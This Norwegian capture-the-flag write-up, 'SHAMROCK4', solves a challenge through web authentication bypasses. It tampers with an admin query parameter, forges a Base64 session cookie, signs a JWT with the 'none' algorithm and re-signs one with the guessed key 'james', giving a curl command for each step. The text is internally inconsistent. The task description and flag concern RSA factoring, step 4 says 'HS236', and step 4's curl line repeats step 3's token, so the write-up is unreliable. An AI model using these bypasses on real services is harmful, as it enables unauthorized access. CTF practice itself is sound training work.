 ## SHAMROCK4

### Oppgave

Oppgaven gir et flagg kryptert med en variasjon av RSA. Målet blir å finne `p` og `q`, som er faktorer vi må ha for å løse opp kryptoen, der vi er gitt `n`. 

### Løsning

1. Endrer parameter i get request fra [`?admin=false`](https://shamrock4.sf24.no/api/endpoint1?admin=false) til [`?admin=true`](https://shamrock4.sf24.no/api/endpoint1?admin=true).

```bash
curl "https://shamrock4.sf24.no/api/endpoint1?admin=true"
# d7d31d74dd0f522068c0847e24b6d3ecca760a7bbc562501cd74b4897d5c8db7
```

2. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9_.',true,false)Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)To_Base64('A-Za-z0-9%2B/%3D')&input=ZXlBaVlXUnRhVzRpT2lCbVlXeHpaU0I5) for å dekode Base64 og endre `admin: false` til `admin: true`. Enkoder så tilbake til Base64.

Den nye strengen kan nå brukes til å autentisere innloggingen. Til dette brukte jeg CURL:
```bash
curl "https://shamrock4.sf24.no/api/endpoint2" -b "session_api2=eyAiYWRtaW4iOiB0cnVlIH0="

# d1402a40665a5a2beaa926f40e4f09f85e2786d077b0d528b0934f3b5012418e
```

3. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('','None')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmhaRzFwYmlJNlptRnNjMlY5Lk1sU1plU1J0ZDhBQmZNZlBKbnJjWGlaZ1VkQlZ5QXpHalhweHlaTldGbEE) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: none`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 11c8c2d0cf65f31bb375c94ac58b45b720379162331798996f5c378e4a848c9e
```

4. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('james','HS256')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmxiblpwY205dWJXVnVkQ0k2SW1SbGRpSXNJblZ6WlhKdVlXMWxJam9pYW1GdFpYTWlMQ0poWkcxcGJpSTZabUZzYzJVc0luTnBaMjVyWlhrdGJtOTBaU0k2SW5WelpYSnVZVzFsSUdseklHOXJJR2x1SUdSbGRpQmxiblpwY205dWJXVnVkQ3dnWW5WMElIVnpaU0IyWVd4cFpDQnpaV055WlhRZ2EyVjVJR2x1SUhCeWIyUjFZM1JwYjI0aWZRLnBSbEhhZWNTWFBpTTNkeWR4V2o3Ti1kYWhtdDV3WEZZbWl3OHlRcHRKdHM) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: HS236` med key `james`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 441dc7d00f11ab62016c58b2b024abcf850229bdc9c106ef2389f50454fe77da
```

<details>
<summary>Flagg</summary>

`flag{hvis_n_kan_faktoreres_blir_det_problemer}`
</details>
